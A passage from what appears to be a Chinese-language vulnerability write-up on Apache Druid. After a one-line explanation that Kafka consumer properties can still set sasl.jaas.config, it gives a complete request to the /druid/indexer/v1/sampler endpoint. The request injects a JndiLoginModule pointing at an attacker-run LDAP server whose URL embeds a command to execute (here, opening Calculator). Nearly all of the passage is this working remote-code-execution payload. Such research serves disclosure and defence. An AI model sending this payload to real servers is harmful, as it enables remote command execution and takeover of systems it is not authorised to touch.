 ![image-20230510101616892](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305101016968.png)

问题主要出在 Consumer properties 这块, 它实际上对应的就是之前实例化 KafkaConsumer 时传入的 properties, 所以依然可以配置 `sasl.jaas.config`

`POST /druid/indexer/v1/sampler`

```json
{
    "type": "kafka",
    "spec": {
        "type": "kafka",
        "ioConfig": {
            "type": "kafka",
            "consumerProperties": {
                "bootstrap.servers": "127.0.0.1:1234",
                "sasl.mechanism": "PLAIN",
                "security.protocol": "SASL_SSL",
                "sasl.jaas.config": "com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://127.0.0.1:1389/Basic/Command/open -a Calculator\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic": "23",
            "useEarliestOffset": true,
            "inputFormat": {
                "type": "regex",
                "pattern": "([\\s\\S]*)",
                "listDelimiter": "56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns": ["raw"]
            }
        },
        "dataSchema": {
            "dataSource": "sample",
            "timestampSpec": {
                "column": "!!!_no_such_column_!!!",
                "missingValue": "1970-01-01T00:00:00Z"
            },
            "dimensionsSpec": {},
            "granularitySpec": {
                "rollup": false
            }
        },
        "tuningConfig": {
            "type": "kafka"
        }
    },
    "samplerConfig": {
        "numRows": 500,
        "timeoutMs": 15000
    }
}
```
